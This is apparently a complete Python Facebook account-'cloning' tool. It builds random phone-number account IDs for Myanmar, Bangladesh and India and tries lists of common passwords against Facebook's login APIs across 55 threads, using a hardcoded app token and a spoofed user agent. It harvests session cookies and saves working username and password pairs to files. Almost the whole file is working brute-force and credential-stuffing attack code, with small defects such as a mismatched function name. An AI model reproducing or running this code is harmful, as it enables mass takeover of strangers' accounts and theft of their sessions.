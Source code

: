 import os
import sys
import time
import uuid
import json
import string
import random
import requests
from requests.exceptions import ConnectionError as net_error
from concurrent.futures import ThreadPoolExecutor as speed

e = "\033[0m"
r = "\033[1;31m"
g = "\033[1;32m"
y = "\033[1;33m"
b = "\033[1;34m"
p = "\033[1;35m"
c = "\033[1;36m"
w = "\033[1;37m"

loop = 0
digits = []
okacc = []
cpacc = []

def logo():
    os.system("clear")
    print(banner)

def linex():
    print(f"{w}==================================================")

def xxx(x):
    return f"{w}[{g}{x}{w}]"

def main():
    logo()
    print(f" {xxx('1')} Start Cloning ")
    print(f" {xxx('2')} Exit Tools ")
    linex()
    xnxx = input(f" {xxx('?')} Select : ")
    if "1" in xnxx:
        r_number()
    elif "2" in xnxx:
        os.system("xdg-open https://www.facebook.com/ngeko9984")
        main()
    elif "3" in xnxx:
        linex()
        print(f" {xxx('!')} {g}Thanks For Using Tools ")
        linex()
        sys.exit()
    else:
        linex()
        print(f" {xxx('!')} {g}Select Valid Option ")
        linex()
        time.sleep(1)
        main()

def r_number():
    logo()
    print(f" {xxx('1')} Mm Cloning ")
    linex()
    c = input(f" {xxx('?')} Select : ")
    if "1" in c:
        Mm()
    else:
        linex()
        print(f" {xxx('!')} {g}Select Valid Option ")
        linex()
        time.sleep(1)
        main()

def pak():
    logo()
    print(f" {xxx('•')} Example : {g}0940, 0979, 0995, 0966 ")
    linex()
    code = input(f" {xxx('?')} Enter Code : ")
    logo()
    print(f" {xxx('•')} Exampel : {g}1000, 2000, 5000, 10000 ")
    linex()
    limit = int(input(f" {xxx('?')} Enter Limit : "))
    for _ in range(limit):
        digits.append("".join(random.choices(string.digits, k=7)))
    logo()
    print(f" {xxx('1')} Method (B-Api) ")
    print(f" {xxx('2')} Method (B-Graph) ")
    linex()
    m = input(f" {xxx('?')} Select : ")
    with speed(max_workers=55) as process:
        logo()
        total_idz = str(len(digits))
        print(f" {xxx('•')} Total Accounts  : {g}{total_idz} ")
        print(f" {xxx('•')} Code You Choose : {g}{code} ")
        print(f" {xxx('!')} {r}If No Result Turn On/Off Flight Mode ")
        linex()
        for love in digits:
            uid = code+love
            pword = [code+love,'Myanmar','Myanmar123','kyawkyaw','KyawKyaw123','nyinyi','nyinyi123','myanmar','myanmar123','moemoe','moemoe123','Aung123','ayeaye','ayeaye123','thuthu','thuthu123','kyaw123','soe123','zawzaw','zawzaw123','zaw123','thuzar','thuzar123','kyawgyi','kyawgyi123','linlin','linlin123','chitchit','chitchit123','waiwai','waiwai123','Kyaw12345','Wai12345','Min12345','Soe12345','Nyi12345','Zaw12345','Aung12345','aungaung123','myomyo','myomyo123','hninhnin','hninhnin123','tintin','tintin123','winmya','winmya123','marmar','marmar123','sansan','sansan123','popo123','chocho','chocho123','kyikyi','kyikyi123','123456','112233','111222','123123','aungaung']            if "1" in m:
                process.submit(m1, uid, pword, total_idz)
            elif "2" in m:
                process.submit(m2, uid, pword, total_idz)
            else:
                process.submit(m1, uid, pword, total_idz)
    linex()
    print(f" {xxx('!')} Process Completed ")
    print(f" {xxx('•')} Total Ok Accounts : {g}{str(len(okacc))} ")
    print(f" {xxx('•')} Total Cp Accounts : {r}{str(len(cpacc))} ")
    linex()
    input(f" {xxx('!')} Press Enter To Back ")
    sys.exit()

def bd():
    logo()
    print(f" {xxx('•')} Example : {g}016, 017, 018, 019 ")
    linex()
    code = input(f" {xxx('?')} Enter Code : ")
    logo()
    print(f" {xxx('•')} Exampel : {g}1000, 2000, 5000, 10000 ")
    linex()
    limit = int(input(f" {xxx('?')} Enter Limit : "))
    for _ in range(limit):
        digits.append("".join(random.choices(string.digits, k=7)))
    logo()
    print(f" {xxx('1')} Method (B-Api) ")
    print(f" {xxx('2')} Method (B-Graph) ")
    linex()
    m = input(f" {xxx('?')} Select : ")
    with speed(max_workers=55) as process:
        logo()
        total_idz = str(len(digits))
        print(f" {xxx('•')} Total Accounts  : {g}{total_idz} ")
        print(f" {xxx('•')} Code You Choose : {g}{code} ")
        print(f" {xxx('!')} {r}If No Result Turn On/Off Flight Mode ")
        linex()
        for love in digits:
            uid = code+love
            pword = [love[1:],love,code+love,"i love you","iloveyou","bangladesh","bangladesh123","708090","102030","777000","888000","999000","123456"]
            if "1" in m:
                process.submit(m1, uid, pword, total_idz)
            elif "2" in m:
                process.submit(m2, uid, pword, total_idz)
            else:
                process.submit(m1, uid, pword, total_idz)
    linex()
    print(f" {xxx('!')} Process Completed ")
    print(f" {xxx('•')} Total Ok Accounts : {g}{str(len(okacc))} ")
    print(f" {xxx('•')} Total Cp Accounts : {r}{str(len(cpacc))} ")
    linex()
    input(f" {xxx('!')} Press Enter To Back ")
    sys.exit()

def india():
    logo()
    print(f" {xxx('•')} Example : {g}091, 092, 093, 094 ")
    linex()
    code = input(f" {xxx('?')} Enter Code : ")
    logo()
    print(f" {xxx('•')} Exampel : {g}1000, 2000, 5000, 10000 ")
    linex()
    limit = int(input(f" {xxx('?')} Enter Limit : "))
    for _ in range(limit):
        digits.append("".join(random.choices(string.digits, k=7)))
    logo()
    print(f" {xxx('1')} Method (B-Api) ")
    print(f" {xxx('2')} Method (B-Graph) ")
    linex()
    m = input(f" {xxx('?')} Select : ")
    with speed(max_workers=55) as process:
        logo()
        total_idz = str(len(digits))
        print(f" {xxx('•')} Total Accounts  : {g}{total_idz} ")
        print(f" {xxx('•')} Code You Choose : {g}{code} ")
        print(f" {xxx('!')} {r}If No Result Turn On/Off Flight Mode ")
        linex()
        for love in digits:
            uid = code+love
            pword = [love,code+love,"57273200","59039200"]
            if "1" in m:
                process.submit(m1, uid, pword, total_idz)
            elif "2" in m:
                process.submit(m2, uid, pword, total_idz)
            else:
                process.submit(m1, uid, pword, total_idz)
    linex()
    print(f" {xxx('!')} Process Completed ")
    print(f" {xxx('•')} Total Ok Accounts : {g}{str(len(okacc))} ")
    print(f" {xxx('•')} Total Cp Accounts : {r}{str(len(cpacc))} ")
    linex()
    input(f" {xxx('!')} Press Enter To Back ")
    sys.exit()

def m1(uid, pword, total_idz):
    global loop
    global okacc
    global cpacc
    sys.stdout.write(f"\r {w}[Fb_fxk-M1] [{loop}/{total_idz}] [OK/CP] [{len(okacc)}/{len(cpacc)}]\r"),
    sys.stdout.flush()
    try:
        for pw in pword:
            ua_string = "[FBAN/FB5A;FBAV/465.0.0.80.26;FBBV/87969472;FBDM/{density=2.0,width=1080,height=1440};FBLC/bn_IN;FBRV/450966348;FBCR/wifi;FBMF/tecno;FBBD/tecno pova;FBPN/com.facebook.katana;FBDV/RMX6182;FBSV/11;FBOP/1;FBCA/x64:arm64-v8a;]"
            data = {
                "email": uid,
                "password": pw,
                "cpl": "true",
                "credentials_type": "password",
                "error_detail_type": "button_with_disabled",
                "source": "login",
                "format": "json",
                "generate_session_cookies": "1",
                "generate_analytics_claim": "1",
                "generate_machine_id": "1",
            }
            headers = {
                "accept-encoding": "gzip, deflate", 
                "Accept": "*/*", 
                "Connection": "keep-alive", 
                "content-type": "application/x-www-form-urlencoded", 
                "Authorization": "OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32", 
                "x-fb-friendly-name": "authenticate", 
                "x-fb-http-engine": "Liger",
                "user-agent": ua_string,
            }
            url = "https://b-api.facebook.com/method/auth.login"
            result = requests.post(url, data=data, headers=headers).json()
            if "session_key" in result:
                coki = ";".join(i["name"]+"="+i["value"] for i in result["session_cookies"])
                print(f" {g}[Fb_fxk-OK] {uid} | {pw}")
                print(f" {w}Cookies : {g}{coki}")
                open("/sdcard/Fb_fxk-Ok.txt", "a").write(f"{uid}|{pw}\n")
                okacc.append(uid)
                break
            elif result["error_code"] == 405:
                print(f" {r}[Fb_fxk-CP] {uid} | {pw}")
                open("/sdcard/Fb_fxk-Cp.txt", "a").write(f"{uid}|{pw}\n")
                cpacc.append(uid)
                break
            else:
                continue
        loop+=1
    except net_error:
        time.sleep(10)
    except:
        pass

def m2(uid, pword, total_idz):
    global loop
    global okacc
    global cpacc
    sys.stdout.write(f"\r {w}[Fb_fxk-M2] [{loop}/{total_idz}] [OK/CP] [{len(okacc)}/{len(cpacc)}]\r"),
    sys.stdout.flush()
    try:
        for pw in pword:
            ua_string = "Mozilla/5.0 (Linux; Android 10; K) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Mobile Safari/537.36"
            data = {
                "adid": str(uuid.uuid4()),
                "format": "json",
                "device_id": str(uuid.uuid4()),
                "email": uid,
                "password": pw,
                "generate_analytics_claims": "1",
                "credentials_type": "password",
                "source": "login",
                "error_detail_type": "button_with_disabled",
                "enroll_misauth": "false",
                "generate_session_cookies": "1",
                "generate_machine_id": "1",
                "fb_api_req_friendly_name": "authenticate",
            }
            headers = {
                "Authorization": "OAuth 350685531728|62f8ce9f74b12f84c123cc23437a4a32",
                "X-FB-Friendly-Name": "authenticate",
                "X-FB-Connection-Type": "unknown",
                "User-Agent": ua_string,
                "Accept-Encoding": "gzip, deflate",
                "Content-Type": "application/x-www-form-urlencoded",
                "X-FB-HTTP-Engine": "Liger",
            }
            url = "https://b-graph.facebook.com/auth/login"
            result = requests.post(url, data=data, headers=headers).json()
            if "session_key" in result:
                coki = ";".join(i["name"]+"="+i["value"] for i in result["session_cookies"])
                print(f" {g}[Fb_fxk-OK] {uid} | {pw}")
                print(f" {w}Cookies : {g}{coki}")
                open("/sdcard/Fb_fxk-Ok.txt", "a").write(f"{uid}|{pw}\n")
                okacc.append(uid)
                break
            elif "www.facebook.com" in result["error"]["message"]:
                print(f" {r}[Fb_fxk-CP] {uid} | {pw}")
                open("/sdcard/Fb_fxk-Cp.txt", "a").write(f"{uid}|{pw}\n")
                cpacc.append(uid)
                break
            else:
                continue
        loop+=1
    except net_error:
        time.sleep(10)
    except:
        pass

banner = f"""{w}\
{w}      d88888b d8888b.        d88888b db    db db   dD 
{w}      88'     88  `8D        88'     `8b  d8' 88 ,8P' 
{r}       88ooo   88oooY'        88ooo    `8bd8'  88,8P   
{r}       88~~~   88~~~b. C8888D 88~~~    .dPYb.  88`8b   
{w}      88      88   8D        88      .8P  Y8. 88 `88. 
{w}      YP      Y8888P'        YP      YP    YP YP   YD 
{g}      Gifted By >> {g}Zaw Myo Aung
{w}==================================================
{w} >> Author  :  Zaw Myo Aung
{w} >> Github  :  _____
{w} >> Verison :  Pre____mium
{w}==================================================\
"""

if __name__ == "__main__":
    main()
